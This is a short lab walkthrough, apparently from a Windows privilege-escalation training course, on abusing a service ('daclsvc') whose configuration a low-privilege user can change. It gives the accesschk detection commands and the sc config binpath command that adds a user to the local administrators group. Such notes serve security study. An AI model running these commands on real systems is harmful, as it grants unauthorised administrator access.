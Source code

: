 #Windows #PrivEsc #BinaryPaths #sc #Accesschk #PowerUp 
==common PrivEsc!==
## **Detection**

Windows VM

1. Open command prompt and type: 
	`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc Everyone *`
	`C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`
		- Based on first result, we run it for `daclsvc`
		- We can also see this in `PowerUp.ps1` results
1. Notice that the output suggests that the user “`User-PC\User`” has the “`SERVICE_CHANGE_CONFIG`” permission.

## **Exploitation**

Windows VM

- Query service with: `sc qc daclsvc`
1. In command prompt type: `sc config daclsvc binpath= "net localgroup administrators user /add"`
2. In command prompt type: `sc start daclsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

